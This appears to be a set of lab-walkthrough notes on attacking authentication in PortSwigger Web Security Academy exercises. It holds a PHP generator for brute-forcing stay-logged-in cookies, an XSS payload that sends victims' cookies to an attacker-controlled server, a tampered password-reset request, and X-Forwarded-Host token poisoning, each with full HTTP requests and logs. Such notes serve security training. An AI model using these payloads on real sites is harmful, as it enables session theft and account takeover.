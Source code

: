 ## Brute-forcing a stay-logged-in cookie

1. **Try to guess the pattern of cookie** some websites generate this cookie based on a predictable concatenation of static values, such as the **username and a timestamp**. Some even use the **password as part of the cookie**

2. In this cookie 
   
       d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw
   
   The Pattern of this is
   
   ```js
   base64(username+':'+md5HashOfPassword)
   ```
   
   You Can write PHP Script for this with 
   
   ```php
   <?php
   foreach (file('pass_list.txt') as $passwd) {
       $hashed_password = md5($passwd);
       $credentials = 'username:' . $hashed_password;
       $encoded_credentials = base64_encode($credentials);
       echo $encoded_credentials . "\n";
   };  
   ?>
   ```
   
   one line 
   
   ```php
   <?php foreach(file('pass_list.txt') as $passwd) echo base64_encode('username:' . md5($passwd)) . "\n"; ?>
   ```
   
   You can do it also with burpsuite 
   
   in Intruder > Payloads > Under Payload processing in add the following rules in order. These rules will be applied sequentially to each payload before the request is submitted.
   
   - **Hash**: `MD5`
   
   - **Add prefix**: `wiener:`
   
   - **Encode**: `Base64-encode`

3. Then you can choose any of the brute force techniques mentioned above

## Offline password cracking + XSS

1. Login With Your Credential and in any where you have XSS write
   
   ```js
   <script>document.location="http://your_Server_You_Can_Use_ngrock/"+document.cookie</script>
   ```

2. Then in Your Server Logs 
   
   ```log
   10.0.3.25       2023-07-19 17:04:31 +0000 "GET /exploit/secret=XQQULTBLOU6nESqLiZppZ6hUjP5Ta0fu;%20stay-logged-in=Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz HTTP/1.1" 404 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36"
   ```
   
   You Should Get a Cookie or useing 
   
   `nc -lnvp $server_port`
   
   ```log
   GET /my-account?id=carlos HTTP/2
   Host: 0a6d00cc03f6198083dc6562002c0083.web-security-academy.net
   Cookie: session=MMynDpTzubV8dpALFhJre7WY9LaoJ5pd; stay-logged-in=Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz
   User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
   Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
   Accept-Language: en-US,en;q=0.5
   Accept-Encoding: gzip, deflate
   Origin: https://0a6d00cc03f6198083dc6562002c0083.web-security-academy.net
   Referer: https://0a6d00cc03f6198083dc6562002c0083.web-security-academy.net/login
   Upgrade-Insecure-Requests: 1
   Sec-Fetch-Dest: document
   Sec-Fetch-Mode: navigate
   Sec-Fetch-Site: same-origin
   Sec-Fetch-User: ?1
   Te: trailers
   ```

## Password reset broken logic

1. Create Account and press Linke `Forgot password?`

2. Write Your UserName or Email and Submit

3. Open Your Email InBox and Open Your Linke To Reset Your Password

4. Write Password in `New password`  And Rewrite it in `Confirm new password` 

5. Capture this request and Edit The hidden `username` parameter to any user that you want to change his Password and remove any `token`
   
   ```log
   POST /forgot-password?temp-forgot-password-token= HTTP/1.1
   Host: 0a5e001d0353593481a7a2b400eb006e.web-security-academy.net
   Cookie: session=JWYIopZvt94mdGBB7ILrSzDZP1FFYXtq
   User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
   Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
   Accept-Language: en-US,en;q=0.5
   Accept-Encoding: gzip, deflate
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 117
   Origin: https://0a5e001d0353593481a7a2b400eb006e.web-security-academy.net
   Referer: https://0a5e001d0353593481a7a2b400eb006e.web-security-academy.net/forgot-password?temp-forgot-password-token=O0X0kBigR29sLTYeQxuMga94zpJQG6jh
   Upgrade-Insecure-Requests: 1
   Sec-Fetch-Dest: document
   Sec-Fetch-Mode: navigate
   Sec-Fetch-Site: same-origin
   Sec-Fetch-User: ?1
   Te: trailers
   Connection: close
   
   temp-forgot-password-token=&username=carlos&new-password-1=peter&new-password-2=peter
   ```

6. Then Send This POST Request and try to login

## Password reset poisoning via middleware

1. Create Account and press Linke `Forgot password?`

2. Write Your UserName or Email and Submit and Capture This Request and Write This Header `X-Forwarded-Host` and See if this header allowed or not

3. if allowd then write after this header your host server and show your logs

```log
POST /forgot-password HTTP/2
Host: 0a6200e1042f715b82ee6f53002e00a4.web-security-academy.net
Cookie: session=Pu5kyEy9RS96Bus7mZ4UzJOtZt1atwTl
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
Origin: https://0a6200e1042f715b82ee6f53002e00a4.web-security-academy.net
Referer: https://0a6200e1042f715b82ee6f53002e00a4.web-security-academy.net/forgot-password
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
X-Forwarded-Host: your_Server_You_Can_Use_ngrock.com

username=Your_target_account_Name
```

   logs

```log
10.0.4.113      2023-07-19 17:38:13 +0000 "GET /exploit/forgot-password?temp-forgot-password-token=lZIHVoWn3lAtdfIJT5Rf44P8wjEHx92A HTTP/1.1" 404 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36"
```

4. Copy The Token and Note it and copy ther reset linke that send to your Email in InBox : https://0a6200e1042f715b82ee6f53002e00a4.web-security-academy.net/forgot-password?temp-forgot-password-token=cBLgCTgK6nvF0wPXgZPUJ7fcqkh84NLw

5. And Replace This Token with Token that you noted it

6. Then Write Password in `New password` And Rewrite it in `Confirm new password`

7. Try to login with Target account with new password 

## Password brute-force via password change

1. Login with Your Credential and navigate change password page

2. write your current password and new password and confirm password and capture this request 

3. send this `request` to `burp intruder` and write your target account in
   
    `username` parameter and brute force the `current-pass` parameter with your wordlist add error massage to gerp mach or extrat add it if you want

